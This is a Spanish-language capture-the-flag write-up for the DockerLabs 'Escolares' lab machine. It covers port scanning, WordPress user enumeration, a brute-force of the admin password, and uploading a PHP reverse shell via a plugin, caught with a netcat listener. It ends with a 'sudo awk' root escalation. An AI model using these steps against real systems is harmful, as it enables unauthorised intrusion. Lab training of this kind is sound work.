 ```yaml
---
title: Escolares - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Luisillo_o        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/7f83b9e1-1efc-47e7-8ce5-c23e2b3e5bce)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80,22 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/1c698515-45c1-423a-b81b-9a9a0526ba60)

# Exploración Web

Al acceder a la página web, observamos una pagina sobre una *Universidad de Ciberseguridad*.

![image](https://github.com/user-attachments/assets/c1f9320f-5e28-45fe-98bd-25c2a803932c)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

Al analizar el código fuente de la página, encontramos una ruta hacia `profesores.html`, donde descubrimos que `luisillo` es el administrador de la instalación de WordPress.

![image](https://github.com/user-attachments/assets/f8a22e16-6c9d-4326-a1fc-133004368103)

# WordPress

Exploramos el directorio `wordpress` y observamos que necesitamos ajustar el archivo `/etc/hosts` para que el dominio `escolares.dl` funcione correctamente.
Añadimos lo siguiente a /etc/hosts:

![image](https://github.com/user-attachments/assets/6a175fca-b27a-4865-b269-c7235cc26717)

![image](https://github.com/user-attachments/assets/01d0e3c2-59a4-45c6-9a44-830b093601c1)

```txt
172.17.0.2 escolares.dl
```
![image](https://github.com/user-attachments/assets/26d3c04e-4e2c-4aca-af76-f1dd69938f43)

Repetimos el escaneo de directorios en `wordpress`:
```bash
gobuster dir -u escolares.dl/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img 
```
Identificamos al usuario luisillo como administrador. Procedemos con un ataque de fuerza bruta para descubrir su contraseña.

Si probamos otra vez , ahora incluso el `gobuster` funciona mejor.

![image](https://github.com/user-attachments/assets/78af7eab-189b-4cbb-a863-f28a2c2867f6)

Nos encuentra muchas rutas interesantes , pero lo que haremos sera usar wpscan , que esta ella espeficamente para auditar paginas wordpress.

```bash
wpscan --url http://escolares.dl/wordpress -e u,cb,vp,vt
```
Encontramos el usuario que vimos en la ruta de antes de `profesores.html`, por lo que con se ve es un usuario en potencia para probar fuerza bruta.

![image](https://github.com/user-attachments/assets/21a0a639-5334-44e9-9463-f9a831e3f157)

##Fuerza bruta usuario luisillo

Antes vimos informacion de ese usuario por lo que podemos generar un diccionario de contraseñas a traves de ese usuario.
```bash
cupp -i 
```

![image](https://github.com/user-attachments/assets/2be2ec8e-6ba4-4e1c-9f98-70fcac195447)

Hacemos el ataque con wpscan al usuario lusillo.

```bash
wpscan --url http://escolares.dl/wordpress/ -U luisillo -P luisillo.txt
```

![image](https://github.com/user-attachments/assets/88dc4f7d-c65d-4f7b-bd9a-5d8727a477d7)

Esta es la contraseña que tenemos de ese usuario, ya solo nos queda acceder como su usuario en el panel de administracion.

![image](https://github.com/user-attachments/assets/db6e7552-df85-455c-b8b9-19222b622268)

Ya dentro nos vamos al apartado de plugins, vemos un plugin el cual tiene acceso a los archivo del servidor web por lo que tenemos que hacer es generar una reverse shell, y acceder desde ella.

## Reverse Shell

Generamos la reverseshell utilizando **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

## Pasos para Cargar la Reverseshell

1. **Preparar la Reverseshell**: Creamos un archivo de reverseshell en el directorio `wordpress`, con la ayuda del plugin.
2. **Ejecutar la Reverseshell**: Una vez que el archivo esté en el servidor, lo ejecutaremos para establecer la conexión.

![image](https://github.com/user-attachments/assets/58b7b91a-e2a4-47f5-86e8-b15b8c8d2f26)

Nos ponemos a escuchar por netcat en mi caso por el 4444

```bash 
nc -lvnp 4444
```

Luego, accedemos a la ruta de la página web donde hemos cargado la reverseshell:

![image](https://github.com/user-attachments/assets/1ba7e21b-c471-46c7-9873-6a77781a0f9e)

Hacemos un whoami para ver si somos el usuario www-data.

![image](https://github.com/user-attachments/assets/93cb0367-a3de-4317-ba45-68e930f37faf)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```
# Escalada de Privilegios

Viendo los home pra enumerar mas usuarios encontramos un archivo llamado `secret.txt`.

![image](https://github.com/user-attachments/assets/dfeea024-eb46-4065-ba33-66cf01994575)

Parece que lo contenia era la contraseña del usuario luisillo.

```bash
su luisillo
```

![image](https://github.com/user-attachments/assets/ec926bf5-ed7f-4694-9110-0c48f288a5c6)

Al ejecutar `sudo -l`, vemos que podemos ejecutar `awk` como `root`. Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```
![image](https://github.com/user-attachments/assets/45826585-e997-46e3-9e36-246a50587dc5)

Ya seriamos root.


